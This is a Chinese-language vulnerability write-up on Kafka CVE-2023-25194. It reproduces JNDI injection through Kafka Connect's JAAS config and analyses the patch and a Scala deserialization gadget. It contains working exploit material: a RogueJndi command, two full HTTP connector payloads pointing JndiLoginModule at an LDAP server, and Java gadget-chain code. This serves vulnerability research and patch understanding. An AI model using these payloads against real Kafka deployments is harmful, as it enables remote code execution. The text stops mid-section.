# Kafka CVE-2023-25194

author： @turn1tup

## 1. 前言

漏洞出来的时候成功复现到发送JNDI，但未深入探究，这几天对该漏洞进行了一番详尽的理解，此文以作记录。

文章分为几部分，分别是漏洞复现、connect jndi问题分析、scala gadget分析、ldap反序化问题分析 。

## 2. 复现

这里使用scala 2.13，kafka 2.8.x版本进行测试，且JDK版本为14.

修改配置文件，设置插件路径 `vi config/connect-distributed.properties`

```
plugin.path=/opt/kafka-connector/plugins/
```

下载插件解压后放置

```
root@ubuntu:~/kafka/kafka_2.13-3.2.0# ls /opt/kafka-connector/plugins/
debezium-connector-mysql 
```

登录mysql，避免创建connect时候出错（未明BUG）

```
 mysql -ubill -ppasspass
```

开启debug

```sh
# cat bin/connect-distributed.sh

if [ "x$KAFKA_LOG4J_OPTS" = "x" ]; then
    export KAFKA_LOG4J_OPTS="-Dlog4j.configuration=file:$base_dir/../config/connect-log4j.properties -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -Dorg.apache.commons.collections.enableUnsafeSerialization=false"
fi

if [ "x$KAFKA_HEAP_OPTS" = "x" ]; then
  export KAFKA_HEAP_OPTS="-Xms256M -Xmx2G"

```

由于2.x 3.x版本中笔者未发现kafka libs中有commons-collections，且一些流行的plugin也没看到有此依赖，所以需要在插件libs或kafka libs中添加cc依赖。漏洞作者可能使用了某些符合`avien`生产环境的情况，但这目前为笔者所不了解。

```
root@ubuntu:~/kafka/kafka_2.13-2.8.2# ls /opt/kafka-connector/plugins/debezium-connector-mysql/ | grep commons
commons-collections-3.2.2.jar
```


启动kafka

```
nohup ./bin/zookeeper-server-start.sh ./config/zookeeper.properties > /dev/null &
nohup ./bin/kafka-server-start.sh ./config/server.properties > /dev/null &
./bin/connect-distributed.sh ./config/connect-distributed.properties
```

检查插件是否被成功加载

```HTTP
GET /connector-plugins HTTP/1.1
Host: 192.168.163.128:8083


HTTP/1.1 200 OK
Date: Thu, 02 Mar 2023 02:22:04 GMT
Content-Type: application/json
Content-Length: 403
Server: Jetty(9.4.44.v20210927)

[{"class":"io.debezium.connector.mysql.MySqlConnector","type":"source","version":"1.6.4.Final"},{"class":"org.apache.kafka.connect.mirror.MirrorCheckpointConnector","type":"source","version":"3.2.0"},{"class":"org.apache.kafka.connect.mirror.MirrorHeartbeatConnector","type":"source","version":"3.2.0"},{"class":"org.apache.kafka.connect.mirror.MirrorSourceConnector","type":"source","version":"3.2.0"}]
```

使用作者提供的JNDI服务器

```
java -jar RogueJndi-1.1.jar --hostname 127.0.0.1 -c "touch /tmp/testtestset"
```

发送POC1,关闭CC3.2中的反序列化防护开关：

```http
POST /connectors HTTP/1.1
Host: 192.168.163.128:8083
Content-Type: application/json
Content-Length: 1245

{
  "name": "conn-1",
  "config": {

    "connector.class": "io.debezium.connector.mysql.MySqlConnector",
    "database.hostname": "localhost",
    "database.port": "3306",
    "database.user": "bill",
    "database.password": "passpass",
    "database.server.id": "8023",
    "database.server.name": "localhost",
    "database.include.list": "test1",

 "database.history.consumer.sasl.mechanism":"PLAIN",
        "database.history.consumer.sasl.jaas.config":"org.apache.kafka.common.security.plain.PlainLoginModule required username=\"admin\" password=\"admin\";",
        "database.history.consumer.security.protocol":"SASL_PLAINTEXT",
        "database.history.producer.sasl.mechanism":"PLAIN",
        
        "database.history.producer.security.protocol":"SASL_PLAINTEXT", "database.history.producer.sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://127.0.0.1:1389/o=scala-enable-unsafe-commons-deser\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"test\";",


    "database.history.kafka.bootstrap.servers": "192.168.163.128:9092",
    "database.history.kafka.topic": "dbhistory.local8023",
    "include.schema.changes": "true"
  }
}
```

发送POC2，进行LDAP反序列化利用，构造链为CC7：

```http
POST /connectors HTTP/1.1
Host: 192.168.163.128:8083
Content-Type: application/json
Content-Length: 1232

{
  "name": "conn-2",
  "config": {

    "connector.class": "io.debezium.connector.mysql.MySqlConnector",
    "database.hostname": "localhost",
    "database.port": "3306",
    "database.user": "bill",
    "database.password": "passpass",
    "database.server.id": "8023",
    "database.server.name": "localhost",
    "database.include.list": "test1",

 "database.history.consumer.sasl.mechanism":"PLAIN",
        "database.history.consumer.sasl.jaas.config":"org.apache.kafka.common.security.plain.PlainLoginModule required username=\"admin\" password=\"admin\";",
        "database.history.consumer.security.protocol":"SASL_PLAINTEXT",
        "database.history.producer.sasl.mechanism":"PLAIN",
        
        "database.history.producer.security.protocol":"SASL_PLAINTEXT", "database.history.producer.sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://127.0.0.1:1389/o=commons-collections7\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"test\";",


    "database.history.kafka.bootstrap.servers": "192.168.163.128:9092",
    "database.history.kafka.topic": "dbhistory.local8023",
    "include.schema.changes": "true"
  }
}
```

## 3. JNDI问题分析

### 3.1. JAAS机制

本次JNDI问题实际为JAVA的JAAS机制，我们在使用JAAS时，需要设置一个`LoginModule`，可以为自己编写的或是JDK自带的 `com.sun.security.auth.module.*` 。

`javax.security.auth.login.LoginContext` 构造函数如下：



使用如下代码创建LoginContext，开头通过环境变量设置jass的配置文件，实际会通过 `sun.security.provider.ConfigFile$Spi#readConfig` 去加载该配置文件

```
System.setProperty("java.security.auth.login.config", "E:\\xxxx\\JAAS_Test\\src\\main\\resources\\demo2.conf");
LoginContext lc = new LoginContext("simple",new CallbackHandlerImpl("username", "password"));
```

配置文件内容如下,这是我们自己定义的LoginModule：

```
simple {     
   com.test.demo1.SimpleLoginModule required debug=true;
}; 
```

当然，我们也可以使用JDK的。jaas配置可参考https://docs.oracle.com/javase/8/docs/technotes/guides/security/jgss/tutorials/LoginConfigFile.html，或是查看类的jdk注释代码。

```
JndiLogin {
    com.sun.security.auth.module.JndiLoginModule required
    user.provider.url="ldap://127.0.0.1:389/test"
    group.provider.url=""
    useFirstPass="true"
     serviceName="x"
     debug="true"
    passwordProvider="com.sun.security.auth.callback.DialogCallbackHandler";
};

```

所以，逻辑上来说，开发者使用带`Configuration`入参的的构造函数去实例化LoginContext的情况下，出现该JNDI问题的可能性才“比较大”。最好是开发者自定义了一个将字符串参数转换为Configuration对象的方法，并将用户传递的数据进行对应的解析，这样一来这个漏洞流程比较清晰也容易利用。显然，该CVE漏洞就是这样的。

kafka 自定义的配置类为 org.apache.kafka.common.security.JaasConfig，可以将字符串解析为jaas配置 




### 3.2. 功能配置

关于作者怎么知晓debeiuzm的database.history一系列配置项的，笔者还不清楚，猜测可能某个产品功能页面或有相关文档有详情，当然，也不排除通过阅读代码然后去构造的。

笔者复现漏洞时是通过百度搜索“database.history.producer.sasl.jaas.config”关键词找到相应配置信息的，https://www.jianshu.com/p/cf342f847a37（别说，谷歌半天还找不到 - -） ：



LoginConext#login触发点上的线程堆栈

```
run:663, LoginContext$4 (javax.security.auth.login)
executePrivileged:784, AccessController (java.security)
doPrivileged:691, AccessController (java.security)
invokePriv:663, LoginContext (javax.security.auth.login)
login:574, LoginContext (javax.security.auth.login)
login:60, AbstractLogin (org.apache.kafka.common.security.authenticator)
<init>:62, LoginManager (org.apache.kafka.common.security.authenticator)
acquireLoginManager:105, LoginManager (org.apache.kafka.common.security.authenticator)
configure:170, SaslChannelBuilder (org.apache.kafka.common.network)
create:192, ChannelBuilders (org.apache.kafka.common.network)
clientChannelBuilder:81, ChannelBuilders (org.apache.kafka.common.network)
createChannelBuilder:105, ClientUtils (org.apache.kafka.clients)
newSender:484, KafkaProducer (org.apache.kafka.clients.producer)
<init>:428, KafkaProducer (org.apache.kafka.clients.producer)
```


查看LoginConext#login触发点上的线程堆栈，根据上面顶层的封装方法，查看其他可能的调用点，可以看到consumer、producer、adminClient都可能触发：



进一步查看可以了解到 KafkaProducer、 KafkaConsumer的构造函数中，都有调用该方法



随后就是寻找通过REST API去创建connector的时候，能构造producer、consumer这些对象，翻阅官方文档可以看到插件有producer consumer配置属性：



另外需要注意，认证协议配置为SASL_PLAINTEXT时才可以触发 JaasContext.loadClientContext



前端功能到WorkerTask.run() 的一系列异步流程就没必要列出来了，虽然流程可以分析，但只是知其然不知代码业务所以然就无意义了。

### 3.3. 漏洞修复

`org.apache.kafka.common.security.JaasContext#throwIfLoginModuleIsNotAllowed`：3.4.0版本中，当发现jaas设置的模块为禁止的，即 `com.sun.security.auth.module.JndiLoginModule` 时，抛异常中断本次流程。



```
throwIfLoginModuleIsNotAllowed:107, JaasContext (org.apache.kafka.common.security)
load:100, JaasContext (org.apache.kafka.common.security)
loadClientContext:87, JaasContext (org.apache.kafka.common.security)
create:167, ChannelBuilders (org.apache.kafka.common.network)
clientChannelBuilder:81, ChannelBuilders (org.apache.kafka.common.network)
createChannelBuilder:105, ClientUtils (org.apache.kafka.clients)
newSender:511, KafkaProducer (org.apache.kafka.clients.producer)
<init>:454, KafkaProducer (org.apache.kafka.clients.producer)
```


`javax.security.auth.login.LoginContext#invoke` ：查看具体的jaas模块调用方式，未看到绕过利用点



## 4. gadget分析

前文的漏洞复现中，我们需要通过两个POC进行漏洞利用，这里学习一下该scala gadget，该构造链触发污点时的线程堆栈如下：

```
setProperty:922, System (java.lang)
$anonfun$addOne$1:53, SystemProperties (scala.sys)
apply:-1, 1717579590 (scala.sys.SystemProperties$$Lambda$986)
next:1008, Iterator$$anon$22 (scala.collection)
compare:273, Ordering$IterableOrdering (scala.math)
compare:267, Ordering$IterableOrdering (scala.math)
cpr:393, ConcurrentSkipListMap (java.util.concurrent)
readObject:1255, ConcurrentSkipListMap (java.util.concurrent)
```

简单来说就是：

ConcurrentSkipListMap.readObject -> comparator.compare ->  View$Fill.iterator().next() -> Function0 -> System.setProperty

漏洞作者给出的相关代码如下，可根据注释的 step number来观看本节内容：

```java
    // For scala version 2.13.x
    private static Object createSetSystemPropertyGadgetScala213(String key, String value) throws Exception {
        ReflectionFactory rf =
                ReflectionFactory.getReflectionFactory();

        Tuple2 prop = new scala.Tuple2<>(key, value);


        long versionUID = ObjectStreamClass.lookup(scala.Tuple2.class).getSerialVersionUID();// Should be: 142951686315914362
        System.out.println("VersionUID: " + versionUID);

        //  step1 通过序列化的方式构造lambda表达式，随后通过反序列化获取该对象
        SerializedLambda lambdaSetSystemProperty = new SerializedLambda(scala.sys.SystemProperties.class,
                "scala/Function0", "apply", "()Ljava/lang/Object;",
                MethodHandleInfo.REF_invokeStatic, "scala.sys.SystemProperties",
                "$anonfun$addOne$1", "(Lscala/Tuple2;)Ljava/lang/String;",
                "()Lscala/sys/SystemProperties;", new Object[]{prop});

        // step2 创建view,调用iterator()后触发其next()，进一步触发传名参数的表达式
        Class<?> clazzView = Class.forName("scala.collection.View$Fill");
        Constructor<?> ctorView= clazzView.getConstructor(int.class, scala.Function0.class);
        Object view = ctorView.newInstance(1, createFuncFromSerializedLambda(lambdaSetSystemProperty));

        // step3 创建comparator，其实现了java.util.Comparator接口
        Class<?> clazzOrder = Class.forName("scala.math.Ordering$IterableOrdering");
        Constructor<?> ctorOrder = rf.newConstructorForSerialization(
                // Object.class 也可以
                clazzOrder, StubClassConstructor.class.getDeclaredConstructor()
        );
        Object iterableOrdering = ctorOrder.newInstance();


        // step4 创建ConcurrentSkipListMap，存入k v，并设置comparator
        ConcurrentSkipListMap map = new ConcurrentSkipListMap((o1, o2) -> 1);

        map.put(view, 1);
        map.put(view, 2);

        Field f = map.getClass().getDeclaredField("comparator");
        f.setAccessible(true);
        f.set(map, iterableOrdering);
        return map;
    }
```


### 4.1 lambda序列化

Java lambda的无参有返回值的表达式，实际上对应的就是scala中传名参数类型中的scala.Function0。

代码中通过 `java.lang.invokeSerializedLambda` 手动构造序列化的lambda表达式：

```java
SerializedLambda lambdaSetSystemProperty = new SerializedLambda(
    scala.sys.SystemProperties.class,
    "scala/Function0", 
    "apply",
    "()Ljava/lang/Object;",
    MethodHandleInfo.REF_invokeStatic, 
    "scala.sys.SystemProperties",
    "$anonfun$addOne$1", 
    "(Lscala/Tuple2;)Ljava/lang/String;",
    "()Lscala/sys/SystemProperties;", 
    new Object[]{prop});
```

对应的构造方法源码：

```java
// java.lang.invoke.SerializedLambda#SerializedLambda
public SerializedLambda(Class<?> capturingClass, // 闭包的类，即lambda所在的类
                            String functionalInterfaceClass, // 接口函数类
                            String functionalInterfaceMethodName,
                            String functionalInterfaceMethodSignature,
                            int implMethodKind,
                            String implClass, 
                            String implMethodName, // lambda实现代码的具体name，可通过javap查看字节码获取
                            String implMethodSignature, // lambda函数具体实现的代码块的入参与返回的desc
                            String instantiatedMethodType, // 整个lambda表达式的入参与返回的desc
                            Object[] capturedArgs) // 传递给内部代码块的参数

// java.lang.invoke.MethodHandleInfo
public static final int
        REF_getField                = Constants.REF_getField,
        REF_getStatic               = Constants.REF_getStatic,
        REF_putField                = Constants.REF_putField,
        REF_putStatic               = Constants.REF_putStatic,
        REF_invokeVirtual           = Constants.REF_invokeVirtual,
        REF_invokeStatic            = Constants.REF_invokeStatic,
        REF_invokeSpecial           = Constants.REF_invokeSpecial,
        REF_newInvokeSpecial        = Constants.REF_newInvokeSpecial,
        REF_invokeInterface         = Constants.REF_invokeInterface;

```

如果要理解该序列化构造方式，先需要了解`接口式lambda`，接口式lambda 的接口起到定义 整个表达式的入参和返回值，如这里的接口desc `()Ljava/lang/Object;` ，表示无入参且返回一个泛型对象，lambda被具体定义后，有具体的返回值类型，则另外表示为 `()Lscala/sys/SystemProperties;`。

下面图片是一个具体的案例，我们定义了一个函数式接口`IFunction`，接口方法为 `apply`，在lambda内部的代码块中，使用了外部的局部变量`prop`，于是我们可以得到与本小节开头`lambdaSetSystemProperty` 相似的属性。



本地编译带lambda的代码，可以看到对应lambda代码为静态函数：



 `$anonfun$addOne$1` 对应的反编译Java代码为下图中蓝色部分：



对应的scala源码也可以理解为传名参数 `body:=> T`：




通过以下方式拿到目标lambda函数 `name`、`desc`：

```
 javap -cp scala-library-2.13.6.jar -p -s -c scala.sys.SystemProperties
 
 ...
 
 public static final java.lang.String $anonfun$addOne$1(scala.Tuple2);
    descriptor: (Lscala/Tuple2;)Ljava/lang/String;
    Code:
       0: aload_0
       1: invokevirtual #359                // Method scala/Tuple2._1:()Ljava/lang/Object;
       4: checkcast     #238                // class java/lang/String
       7: aload_0
       8: invokevirtual #270                // Method scala/Tuple2._2:()Ljava/lang/Object;
      11: checkcast     #238                // class java/lang/String
      14: invokestatic  #363                // Method java/lang/System.setProperty:(Ljava/lang/String;Ljava/lang/String;)Ljava/lang/String;
      17: areturn
 ...
```

JDK提供了一些通用的函数式接口，平常我们也可以使用，见`java.util.function.*`

### 4.2. View$Fill

从Fill的构造函数申明中，我们可以知道 elem 是传名参数 ` => A`，类型是无参数传入且有返回，对应的接口函数就是 scala.Funtion0，我们在构造Fill时传入一个整型与一个无参有返回的lambda表达式即可。 `iterator` 方法返回的迭代器中的具体元素就是 elem。



当调用 Fill.iterator().next() 时，触发的具体next方法中，执行了elem表达式。




### 4.3. comparator

IterableOrdering实现了java.util.Comparator接口，在具体compare方法中我们可以看到，存在 x.iterator().next()的逻辑，hasNext中只要当前索引i小于总元素，hasNext则为true：

